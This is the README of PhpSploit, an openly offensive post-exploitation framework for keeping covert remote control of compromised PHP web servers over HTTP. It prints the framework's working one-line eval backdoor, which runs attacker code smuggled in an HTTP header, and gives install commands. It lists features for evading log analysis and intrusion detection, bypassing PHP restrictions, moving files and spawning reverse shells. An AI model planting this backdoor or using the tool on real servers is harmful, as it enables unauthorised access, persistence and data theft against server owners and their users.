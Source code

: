 ### PhpSploit: _Furtive post-exploitation framework_

PhpSploit is a **remote control** framework, aiming to provide a **stealth**
interactive shell-like connection over HTTP between client and web server.
It is a post-exploitation tool capable to maintain access to a
compromised web server for **privilege escalation** purposes.

[![travis build](https://travis-ci.org/nil0x42/phpsploit.svg?branch=master)](https://travis-ci.org/nil0x42/phpsploit)
[![codacy code quality](https://api.codacy.com/project/badge/Grade/b998fe23c25f40a78c6c35c722bb9fa0)](https://app.codacy.com/app/nil0x42/phpsploit?utm_source=github.com&utm_medium=referral&utm_content=nil0x42/phpsploit&utm_campaign=Badge_Grade_Dashboard)
[![lgtm alerts](https://img.shields.io/lgtm/alerts/g/nil0x42/phpsploit.svg?logo=lgtm&logoWidth=18)](https://lgtm.com/projects/g/nil0x42/phpsploit/alerts/)
[![codecov coverage](https://codecov.io/gh/nil0x42/phpsploit/branch/master/graph/badge.svg)](https://codecov.io/gh/nil0x42/phpsploit)
[![codeclimate maintainability](https://api.codeclimate.com/v1/badges/6986200c1729b4a70a40/maintainability)](https://codeclimate.com/github/nil0x42/phpsploit/maintainability)
[![license](https://img.shields.io/github/license/nil0x42/phpsploit.svg)](https://github.com/nil0x42/phpsploit/blob/master/LICENSE)
[![requires.io requirements](https://requires.io/github/nil0x42/phpsploit/requirements.svg?branch=master)](https://requires.io/github/nil0x42/phpsploit/requirements/?branch=master)


![phpsploit demo](data/img/phpsploit-demo.png)

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Overview

The obfuscated communication is accomplished using HTTP headers under
standard client requests and web server's relative responses, tunneled
through a tiny **polymorphic backdoor**:

```php
<?php @eval($_SERVER['HTTP_PHPSPL01T']); ?>
```

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Quick Start

```sh
git clone https://github.com/nil0x42/phpsploit
cd phpsploit/
pip3 install -r requirements.txt
./phpsploit --interactive --eval "help help"
```

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Features

-   **Efficient**: More than 20 plugins to automate post-exploitation tasks
    -   Run commands and browse filesystem, bypassing PHP security restrictions
    -   Upload/Download files between client and target
    -   Edit remote files through local text editor
    -   Run SQL console on target system
    -   Spawn reverse TCP shells

-   **Stealth**: The framework is made by paranoids, for paranoids
    -   Nearly invisible by log analysis and NIDS signature detection
    -   Safe-mode and common _PHP security restrictions bypass_
    -   Communications are hidden in HTTP Headers
    -   Loaded payloads are obfuscated to _bypass NIDS_
    -   http/https/socks4/socks5 **Proxy support**

-   **Convenient**: A robust interface with many crucial features
    -   Detailed help for any command or option (type `help`)
    -   _Cross-platform_ on both the client and the server.
    -   Powerful interface with completion and multi-command support
    -   Session saving/loading feature & persistent history
    -   Multi-request support for large payloads (such as uploads)
    -   Provides a powerful, highly configurable settings engine
    -   Each setting, such as user-agent has a _polymorphic mode_
    -   Customisable environment variables for plugin interaction
    -   Provides a complete plugin development API

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Supported platforms (as attacker):

-   GNU/Linux
-   Mac OS X

#### Supported platforms (as target):

-   GNU/Linux
-   BSD Like
-   Mac OS X
-   Windows NT

## Contributors

Thanks goes to these people ([emoji key](https://github.com/all-contributors/all-contributors#emoji-key)):

<!-- ALL-CONTRIBUTORS-LIST:START - Do not remove or modify this section -->
<!-- prettier-ignore -->
| [<img src="https://avatars1.githubusercontent.com/u/3504393?v=4" width="100px;" alt="nil0x42"/><br /><sub><b>nil0x42</b></sub>](https://exdemia.com)<br />[💻](https://github.com/nil0x42/phpsploit/commits?author=nil0x42 "Code") [🚇](#infra-nil0x42 "Infrastructure (Hosting, Build-Tools, etc)") [🔌](#plugin-nil0x42 "Plugin/utility libraries") [⚠️](https://github.com/nil0x42/phpsploit/commits?author=nil0x42 "Tests") | [<img src="https://avatars1.githubusercontent.com/u/20907184?v=4" width="100px;" alt="shiney-wh"/><br /><sub><b>shiney-wh</b></sub>](https://github.com/shiney-wh)<br />[💻](https://github.com/nil0x42/phpsploit/commits?author=shiney-wh "Code") [🔌](#plugin-shiney-wh "Plugin/utility libraries") | [<img src="https://avatars3.githubusercontent.com/u/1619783?v=4" width="100px;" alt="Wannes Rombouts"/><br /><sub><b>Wannes Rombouts</b></sub>](http://wapiflapi.github.io)<br />[💻](https://github.com/nil0x42/phpsploit/commits?author=wapiflapi "Code") [🚧](#maintenance-wapiflapi "Maintenance") | [<img src="https://avatars1.githubusercontent.com/u/6031769?v=4" width="100px;" alt="Amine Ben Asker"/><br /><sub><b>Amine Ben Asker</b></sub>](http://yurilz.com)<br />[💻](https://github.com/nil0x42/phpsploit/commits?author=yurilaaziz "Code") [🚧](#maintenance-yurilaaziz "Maintenance") | [<img src="https://avatars1.githubusercontent.com/u/5619153?v=4" width="100px;" alt="jose nazario"/><br /><sub><b>jose nazario</b></sub>](http://twitter.com/jnazario)<br />[📖](https://github.com/nil0x42/phpsploit/commits?author=paralax "Documentation") [🐛](https://github.com/nil0x42/phpsploit/issues?q=author%3Aparalax "Bug reports") | [<img src="https://avatars3.githubusercontent.com/u/156915?v=4" width="100px;" alt="Sujit Ghosal"/><br /><sub><b>Sujit Ghosal</b></sub>](http://wikisecure.net)<br />[📝](#blog-sujit "Blogposts") | [<img src="https://avatars3.githubusercontent.com/u/3418725?v=4" width="100px;" alt="Zerdoumi"/><br /><sub><b>Zerdoumi</b></sub>](https://github.com/sohelzerdoumi)<br />[🐛](https://github.com/nil0x42/phpsploit/issues?q=author%3Asohelzerdoumi "Bug reports") |
| :---: | :---: | :---: | :---: | :---: | :---: | :---: |
| [<img src="https://avatars3.githubusercontent.com/u/5489330?v=4" width="100px;" alt="tristandostaler"/><br /><sub><b>tristandostaler</b></sub>](https://github.com/tristandostaler)<br />[🐛](https://github.com/nil0x42/phpsploit/issues?q=author%3Atristandostaler "Bug reports") | [<img src="https://avatars3.githubusercontent.com/u/16543074?v=4" width="100px;" alt="Rohan Tarai"/><br /><sub><b>Rohan Tarai</b></sub>](https://github.com/rohantarai)<br />[🐛](https://github.com/nil0x42/phpsploit/issues?q=author%3Arohantarai "Bug reports") |
<!-- ALL-CONTRIBUTORS-LIST:END -->

_This project follows the [all-contributors](https://github.com/all-contributors/all-contributors) specification. Contributions of any kind welcome!_
